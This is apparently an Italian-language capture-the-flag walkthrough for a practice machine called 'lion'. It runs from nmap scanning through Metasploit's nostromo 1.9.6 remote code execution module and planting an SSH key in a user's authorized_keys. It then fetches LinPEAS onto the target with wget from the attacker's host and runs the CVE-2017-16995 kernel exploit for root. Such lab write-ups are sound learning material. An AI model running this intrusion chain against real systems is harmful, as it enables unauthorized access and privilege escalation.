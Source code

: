 # lion
# ENUM
partiamo con uno scan 

```bash
nmap lion.thm -sV -sC 
```

troviamo 2 porte interessanti la porta 8080 e la 1337 

avete più possibilità io ho individuato 2 problemi principali di questa web app 
principalmente nostromo usa un paramentro http_verify che permette all'attacante di inviare comandi 
in questo caso vi consiglio di avviare metasploit
# exploitation
```bash
msfconsole
```
tramite questo cercate nostromo 
```bash
search nostromo
```

dovreste vedere una vulnerabilità di questo tipo nostromo 1.9.6 - Remote Code Execution

fate il comando 
```bash
use vulnerabilità trovata
```
aggiungete tutti i campi dell'exploit

fate run 

ed ecco che avremmo una console dove lanciare tutti i comandi che ci servono

i comandi che seguono serviranno per capire con che utente ci troviamo e per creare un chiave ssh che useremo dopo
```bash
id
```
genero una key per l'ssh
```bash
ssh-keygen
```
inserisco la chiave generata al posto di quella che esisteva già e tramite questa mi autorizzo l'accesso all'ssh
```bash
mkdir /home/gloria/.ssh; echo '<il file sshkey.pub>' > /home/gloria/.ssh/authorized_keys
```

tramite l'sshkey generata e salvata sulla nostra macchina facciamo la connessione in ssh

## ssh

```bash
ssh -i sshkey gloria@<lion.thm> -p 1337
```
ottimo siamo sull'ssh andiamo a fare il privesc

## privesc

scarichiamo LinPEAS.sh sulla nostra macchina e passiamolo sulla macchina attaccata

```bash
python3 -m http.server 80
```
comando da eseguire sulla macchina attaccata:
```bash
wget http://vostroip/LinPEAS.sh
```

diamo i giusti permessi allo script
```bash
chmod +x LinPEAS.sh
./LinPEAS.sh
```

il kernel è vulnerabile andiamo ad usare l'exploit 
cve-2017-16995
scarichiamolo e andiamo a compilare sulla macchina per evitare corruzioni
fate i passaggi come se voleste passare linpeas.
una volta che il file cve-2017-16995.c si trova sulla macchina eseguite questo comando per compilarlo
```bash
gcc --static cve-2017-16995.c -o cve-2017-16995 && chmod +x cve-2017-16995 
```

avviatelo e il gioco e fatto!
```bash
./cve-2017-16995
```




